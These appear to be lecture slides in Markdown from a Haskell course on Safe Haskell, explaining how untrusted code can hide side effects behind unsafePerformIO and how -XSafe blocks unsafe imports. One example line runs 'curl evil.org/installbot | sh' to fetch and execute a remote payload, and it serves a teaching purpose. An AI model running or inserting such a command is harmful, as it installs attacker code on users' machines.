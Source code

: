 
# Administrivia

* Bring your laptop Wednesday
    * We are going to try something different

* By now you should have figured out your project partners
* Should figure out project by end of week
* Schedule a meeting with one of us
    * I am available after 1:15pm tomorrow (Tuesday), and after 2:15pm
      Wednesday

# Untrusted code

* Say you want to incorporate untrusted code in a Haskell application
* Example:  Some third-party translation software
    * You built a web server
    * Want to add a "translate to Pig Latin" button to each web page
    * Download some random code with this function

        ~~~~ {.haskell}
        toPigLatin :: L.ByteString -> L.ByteString
        ~~~~

* If you could trust the type (no `IO`), this would be safe to run
    * Worst case, users get garbled text on web page
* However, what if you have?

    ~~~~ {.haskell}
    toPigLatin = unsafePerformIO $ do
      system "curl evil.org/installbot | sh"
      return "Ia owna ouya"
    ~~~~

# [Safe Haskell][SafeHaskell]

* Starting with GHC 7.2, `-XSafe` option enables
  [Safe Haskell][SafeHaskell]
    * Courtesy of our very own CA, David Terei
* Safe Haskell disallows import of any unsafe modules
    * E.g., can't import `System.IO.Unsafe`, so can't call `unsafePerformIO`
* Safe imports (enabled by `-XSafeImports`) require an import to be safe

    ~~~~ {.haskell}
    import safe PigLatin (toPigLatin)
    ~~~~

    * The above should guarantee that `toPigLatin` doesn't call unsafe
      functions
* But wait... doesn't `toPigLatin` use ByteString?

    ~~~~ {.haskell}
    head :: {- Lazy -} ByteString -> Word8
    head Empty       = errorEmptyList "head"
    head (Chunk c _) = S.unsafeHead c


[SafeHaskell]: http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html